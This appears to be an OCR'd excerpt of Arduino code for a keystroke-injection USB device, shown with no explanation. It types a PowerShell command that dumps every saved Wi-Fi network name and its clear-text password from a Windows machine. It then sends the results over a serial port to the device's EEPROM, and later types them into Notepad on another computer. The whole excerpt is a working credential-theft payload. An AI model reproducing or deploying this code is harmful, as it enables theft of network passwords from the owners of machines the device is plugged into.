 ```js
    if(digitalRead(extractButton) == LOW)
        extracted = false;
    if(digitalRead(dispatchButton) == LOW)
        dispatched = false;
}

void extractingData() {
    delay(1000);
    Keyboard.press(KEY_LEFT_GUI);
    delay(20);
    Keyboard.release(KEY_LEFT_GUI);
    delay(500);
    Keyboard.print("Powershell");
    delay(500);
    Keyboard.press(KEY_RETURN);
    delay(200);
    Keyboard.release(KEY_RETURN);
    delay(1000);
    Keyboard.println("(netsh wlan show profiles) | Select-String \"\\:(.+)$\" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name=\"$name\" key=clear)}  | Select-String \"Key Content\\W+\\:(.+)$\" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass } | Format-Table -AutoSize | Out-String -OutVariable dataCaptured");
    delay(500);

    Keyboard.println("$comPort = ((Get-WmiObject -query \"SELECT * FROM Win32_PnPEntity\" | Where {$_.Name -Match \"COM\\d+\"}).name).Split(\"COM\")");
    delay(200);
    Keyboard.println("$comPort = [int]$comPort[$comPort.length - 1].replace(\")\", \"\")");
    delay(200);
    Keyboard.print("$serialObject = new-Object System.IO.Ports.SerialPort COM");
    Keyboard.print("$comPort");
    Keyboard.println(", 9600, None, 8, one");
    delay(200);
    Keyboard.println("$serialObject.Open()");
    delay(200);
    Keyboard.println("$serialObject.Write(\"$dataCaptured\")");
    delay(200);
    Keyboard.println("$serialObject.close()");
    delay(200);
    Keyboard.println("exit");
    delay(200);
    for(int i=0; i<sizeof(stringArray)-1; i++)
        stringArray[i] = Serial.read();
    EEPROM.put(1, stringArray);
}

void dispatchingData() {
    delay(500);
    Keyboard.press(KEY_LEFT_GUI);
    delay(20);
    Keyboard.release(KEY_LEFT_GUI);
    delay(500);
    Keyboard.println("notepad");
    delay(700);
    Keyboard.press(KEY_RETURN);
    delay(200);
    Keyboard.release(KEY_RETURN);
    delay(1000);
    Keyboard.print(EEPROM.get(1, stringArray));
}
```
